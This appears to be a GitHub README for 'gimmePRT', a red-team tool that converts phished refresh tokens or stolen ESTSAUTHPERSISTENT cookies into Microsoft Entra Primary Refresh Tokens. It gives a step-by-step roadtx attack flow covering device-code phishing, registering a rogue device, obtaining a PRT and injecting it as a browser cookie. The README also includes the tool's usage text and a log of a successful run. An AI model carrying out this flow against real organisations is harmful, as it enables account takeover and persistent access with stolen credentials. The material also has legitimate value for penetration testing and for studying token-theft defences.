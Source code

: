 # gimmePRT

This code is based on the research done by [Dirk-jan](https://x.com/_dirkjan) via this [blog post](https://dirkjanm.io/phishing-for-microsoft-entra-primary-refresh-tokens/). The code heavily relies on the [ROADtools](https://github.com/dirkjanm/ROADtools) library and much of the functionality is taken directly from [roadtx](https://github.com/dirkjanm/ROADtools/tree/master/roadtx).  Credit to [kiwids](https://x.com/mhskai2017) for his original automation [script](https://github.com/kiwids0220/deviceCode2WinHello) linked in Dirk-jan's blog.  

The idea of this tool is to create a single point of entry for automagically getting a useable PRT using ROADlib. An example attack flow using roadtx that this is aiming to replicate would look like:
```
1a. SquarePhish/Device code with the following details:

    client_id: 29d9ed98-a469-4536-ade2-f981bc1d605e (Microsoft Authentication Broker)
    resource:  https://enrollment.manage.microsoft.com/

1b. If you have a ESTSAUTHPERSISTENT cookie from evilginx/browser dump,
    replicate the above:

    $ roadtx interactiveauth -c 29d9ed98-a469-4536-ade2-f981bc1d605e \
                             -r https://enrollment.manage.microsoft.com/ \
                             -ru https://login.microsoftonline.com/applebroker/msauth \
                             --estscookie <ESTSAUTHPERSISTENT>

----------

2. Once you have the refresh token, request a new access token with the correct resource:

   client_id: 29d9ed98-a469-4536-ade2-f981bc1d605e (Microsoft Authentication Broker)
   resource:  urn:ms-drs:enterpriseregistration.windows.net

   $ roadtx gettokens --refresh-token file \
                      -c 29d9ed98-a469-4536-ade2-f981bc1d605e \
                      -r drs

3. Use `roadtx` (ROADTools) to join/register a device

   $ roadtx device -a join -n dcflow

4. With the newly joined device, request a PRT

   $ roadtx prt --refresh-token <TOKEN> \
                -c dcflow.pem \
                -k dcflow.key

5. Plug the PRT into the browser to initiate the SSO flow

   cookie_name:  `x-ms-RefreshTokenCredential`
   cookie_value: `<PRT_TOKEN>`

6. If needed, expand the permissions of the PRT token

   $ roadtx prtauth -c msteams -r msgraph
```

## Usage

```
usage: gimmePRT.py [-h] [--device-name DEVICE_NAME] [--windows-version WINDOWS_VERSION]
                   [--debug] {refresh,cookie} ...

-*- GIMME PRT -*-

positional arguments:
  {refresh,cookie}
    refresh             Convert refresh token to PRT
    cookie              Convert Microsoft ESTS cookie to PRT

options:
  -h, --help            show this help message and exit

  --device-name DEVICE_NAME
                        device name when joining (default: DESKTOP-XXXXXXXX)

  --windows-version WINDOWS_VERSION
                        windows versions for the joined device (default: 10.0.19041.928)

  --debug               enable debugging
```

```
usage: gimmePRT.py cookie [-h] --estsauth ESTSAUTH

options:
  -h, --help           show this help message and exit

  --estsauth ESTSAUTH  ESTSAUTHPERSISTENT cookie from evilginx/browser dump
```

```
usage: gimmePRT.py refresh [-h] -t TOKEN

options:
  -h, --help            show this help message and exit

  -t TOKEN, --token TOKEN
                        refresh token from SquarePhish/device code flow
```

### Requirements

```sh
$ pip3 install roadtools roadtx colorama

# geckodriver is expected in the current path, below is an example download
$ wget https://github.com/mozilla/geckodriver/releases/download/v0.33.0/geckodriver-v0.33.0-linux-aarch64.tar.gz && \
  tar -xvf geckodriver-v0.33.0-linux-aarch64.tar.gz
```

### Example

```
❯ python3 -i gimmePRT.py cookie --estsauth "0.AWXXXXXXXXXXXXX..."

[2024-07-05 03:26:37,539] info | Converting ESTSAUTHPERSISTENT cookie to a useable Refresh Token
[2024-07-05 03:26:52,454] info | Successfully converted cookie to refresh token
[2024-07-05 03:26:54,515] info | Swapping refresh token to the correct resource URI
[2024-07-05 03:26:56,304] info | Successfully swapped token resource URI
[2024-07-05 03:26:57,099] info | Registering and joining device to the domain
    Saving private key to device.key
    Registering device
    Device ID: XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX
    Saved device certificate to device.pem
[2024-07-05 03:27:02,331] info | Successfully joined device
[2024-07-05 03:27:10,671] info | Obtained PRT:
    0.AWXXXXXXXXXXXXX...
[2024-07-05 03:27:10,671] info | Obtained session key: XXXXXXXX...
    Saved PRT to prt.txt
    Device was deleted in Azure AD
```